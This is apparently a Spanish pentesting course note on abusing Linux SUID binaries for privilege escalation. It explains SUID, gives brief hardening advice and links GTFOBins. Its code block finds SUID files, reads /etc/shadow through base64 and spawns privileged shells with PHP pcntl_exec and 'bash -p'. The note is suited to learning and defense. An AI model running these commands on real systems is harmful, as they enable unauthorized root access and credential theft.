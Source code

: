 # Abusando de privilegios SUID

Tags: #Linux #SUID  #Escalada #Root #Privilegios 

Un privilegio **SUID** (**Set User ID**) es un permiso especial que se puede establecer en un archivo binario en sistemas Unix/Linux. Este permiso le da al usuario que ejecuta el archivo los **mismos privilegios** que el **propietario** del archivo.

Por ejemplo, si un archivo binario tiene establecido el permiso SUID y es propiedad del usuario root, cualquier usuario que lo ejecute adquirirá temporalmente los mismos privilegios que el usuario root, lo que le permitirá realizar acciones que normalmente no podría hacer como un usuario normal.

El abuso de privilegios SUID es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a un archivo binario con permisos SUID, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

Para prevenir el abuso de privilegios SUID, se recomienda limitar el número de archivos con permisos SUID y asegurarse de que solo se otorguen a archivos que requieran este permiso para funcionar correctamente. Además, es importante monitorear regularmente el sistema para detectar cambios inesperados en los permisos de los archivos y para buscar posibles brechas de seguridad.

Una vez más, se os comparte el mismo recurso que en la clase anterior, dado que esta página también contempla los binarios con permiso SUID que potencialmente pueden ser explotados:

- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)


## SUID

En la pagina de GTFOBins buscamos el comando y la pestaña de **SUID**
* El comando que tiene un privilegios SUID contiene una **S**  o 4755
* Este tipo de comandos afecta a nivel de sistema a todos los usuarios 

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
❯ find / -perm -u=s -type f 2>/dev/null           # Buscar comandos SUID desde la raiz 
❯ find \-user <username> 2>/dev/null              # Para ver que comandos donde el propiertario es es usuario

# Podemos encontrar comandos asi:
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /usr/bin/base64
-rwsr-xr-x 1 root root 8756 Feb 9 2022 /usr/bin/php8.1

# Podremos ejecutar el comando si es SUID como el propietario de forma temporal sin passwd
❯ base64 /etc/shadow | base64 -d                  # Podriamos ver el /etc/shadow

❯ php -r "pcntl_exec('/bin/sh', ['-p']);"         # Podemos obtener una consola interactiva
❯ bash -p                                         # Obtener la consola bash, p = privilege

# Podemos ejecutar como 
❯ sudo /home/file.sh                               # Esto si el usuario a ejecutar el binario es 'root'  
❯ sudo -u <user> /home/file.sh                     # Esto si tenemos el usuario el cual al ejecutar el binario no necesite permisos 
```

